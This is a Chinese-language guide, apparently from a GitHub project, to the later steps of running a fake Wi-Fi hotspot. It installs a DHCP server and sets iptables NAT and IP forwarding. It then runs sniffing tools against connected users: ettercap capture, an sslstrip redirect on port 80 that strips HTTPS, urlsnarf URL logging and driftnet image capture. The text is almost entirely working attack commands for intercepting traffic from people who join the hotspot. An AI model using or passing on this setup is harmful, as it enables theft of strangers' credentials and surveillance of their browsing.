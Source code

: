 
## dhcp服务 ##

### 安装dhcp服务 ###

    apt-get install isc-dhcp-server

### 启动dhcp服务 ###

    dhcpd -d -f -cf dhcpd.conf <INTERFACE>
    
## 使用iptables设置转发 ##

使用iptables设置转发，将用户连接SoftAP后的数据，转发到internet上，是非常关键的一步。网上各种版本很多，其实最简单的实现就一句指令：

    iptables -t nat -A POSTROUTING --out-interface $FAKE_AP_INTERNET -j MASQUERADE    #$FAKE_AP_INTERNET是外网接口
    
注意，转发生效需要本机开启ip_forward功能。指令是：

    echo "1" > /proc/sys/net/ipv4/ip_forward

由于后面运行ettercap时，会将该值再次变为0，所以等ettercap运行后再执行上述命令。

## 运行各种嗅探工具 ##

SoftAP建立并运行dhcp服务后，客户端就可以根据我们设定的规则连接上热点并正常浏览网页，运行各个程序了。接下来，就是针对Soft AP的接口at0，执行各种嗅探：

    ettercap -Tzq -i $FAKE_AP_AT_INTERFACE -w $SESSION_PATH/etter.pcap -L $SESSION_PATH/etter
    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $SSLSTRIP_PORT
    sslstrip -pkf -l $SSLSTRIP_PORT -w $SESSION_PATH/sslstrip.log 2>/dev/null
    urlsnarf -i $1 | grep http > $SESSION_PATH/url.txt
    tail -f $SESSION_PATH/url.txt
    driftnet -i $1 -d $SESSION_PATH/
